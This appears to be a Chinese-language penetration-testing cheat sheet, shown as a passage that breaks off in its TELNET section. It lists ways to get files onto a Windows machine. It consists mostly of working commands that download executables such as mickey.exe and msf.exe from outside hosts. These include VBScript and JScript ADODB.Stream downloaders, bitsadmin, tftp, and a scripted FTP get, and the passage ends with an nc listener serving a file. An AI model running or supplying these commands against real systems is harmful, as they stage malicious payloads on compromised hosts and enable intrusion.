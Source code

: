 #### 使用 ADODB.Stream 来传文件

code 1:

```
Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP") : objXMLHTTP.open "GET", "http://192.168.1.43/mickey.exe", false : objXMLHTTP.send() : Set objADOStream = CreateObject("ADODB.Stream") : objADOStream.Open : objADOStream.Type = 1 : objADOStream.Write objXMLHTTP.ResponseBody : objADOStream.Position = 0 : Set objFSO = Createobject("Scripting.FileSystemObject") : objADOStream.SaveToFile "C:\msf.exe":objADOStream.Close 
```

code 2:

```
function HTTPGetDownload(url, file) {  
var http = new ActiveXObject("WinHttp.WinHttpRequest.5.1");  
http.open("GET", url);  
http.send();  
var stream = new ActiveXObject("ADODB.Stream");  
stream.type = 1;  
stream.open();  
stream.write(http.responseBody);  
stream.saveToFile(file,2); }  
HTTPGetDownload("http://1.2.3.4/mickey.exe", "mickey.exe"); 
```

#### 使用 bitsadmin 来传文件:

code 3:

```
bitsadmin /rawretrun /transfer getfile http://pentest.cc/mickey.exe c:\mickey.exe 
```

#### 走 UDP 的 TFTP:

code 4:

```
tftp –i 1.2.3.4 GET mickey.exe 
```

#### 使用 FTP:

code 5:

```
echo open 1.2.3.4 > x&echo user 2 2 >> x &echo get mickey.exe >> x &echo quit >> x &ftp -n -s:x 
```

#### 使用 TELNET:

情景假设,我是 LINUX 要传文件到 WIN 上去

首先我在本地的 LINUX 上用 NC 执行

```
nc -lvp 23 < mickey.txt 
```
